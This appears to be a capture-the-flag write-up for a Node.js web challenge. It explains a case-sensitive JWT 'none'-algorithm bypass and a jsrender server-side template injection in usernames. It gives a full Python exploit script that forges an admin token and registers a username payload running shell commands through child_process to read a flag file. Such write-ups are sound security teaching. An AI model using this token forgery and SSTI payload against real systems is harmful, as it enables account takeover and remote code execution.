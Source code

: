 # Didactic Octo Paddle
The web application given is written in JS using an SQLite database, and redering HTML templates with `jsrender`. This smol e-commerce webapp allows a user to register itself, add/remove items to/from a cart. It also has an admin interface to administer users.

The first vulnerability lies in the handling of the admin JWT session: it trusts the user provided JWT algorithm. It does try to filter out the `none` alrogithm (in which the JWT signature is an empty string), but is not case sensitive:
```js
const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') { <====================== only 'none' is tested, not 'None', 'nOne', 'nOnE', etc
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
```

Once logged in as admin, the user page renders the user names with `jsrender`:

```js
  router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
```

```html
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
```

If a user has a name using an SSTI (Server Side Template Injection), it will trigger `jsrender` to execute it.

As such, the path to victory is:

- register a normal user
- login with the normal user get the resulting JWT
- pollute the JWT algorithm with `None` (or any `none` with an uppercase), remove its signature, and alter the user `id` to `1` (which is the admin)
- register another user, which username uses a `jsrender` SSTI (using payloads from [here](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md))
- using the polluted admin JWT, visit the `/admin` page to trigger `jsrender` SSTI trying to display the usernames

The final script is the following:
```python
import requests
import base64
import json

domain = '165.232.108.240'
endpoint = "http://{}:31326".format(domain)

register = {
    'username': 'aaa',
    'password': 'bbb'
}

# https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md#jsrender-nodejs
register_ssti = {
    'username': "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}",
    'password': 'aaa'
}

s = requests.Session()
# Register
response = s.post(endpoint + '/register', json = register)
print(response.text)
# Login
response = s.post(endpoint + '/login', json = register)
print(response.text)

jwt = s.cookies['session']
jwt_alg = json.loads(base64.b64decode(jwt.split('.')[0]))
jwt_claim = json.loads(base64.b64decode(jwt.split('.')[1]))
jwt_alg['alg'] = 'None'
jwt_claim['id'] = 1

jwt_admin = base64.b64encode(json.dumps(jwt_alg).encode('utf8')) + b'.' + base64.b64encode(json.dumps(jwt_claim).encode('utf8')) + b'.'
jwt_admin = jwt_admin.decode('utf8').replace('=', '')
print(jwt_admin)
s.cookies.set("session", jwt_admin, domain=domain)

# Register SSTI
response = s.post(endpoint + '/register', json = register_ssti)
print(response.text)
# Admin
response = s.get(endpoint + '/admin')
print(response.text)
```
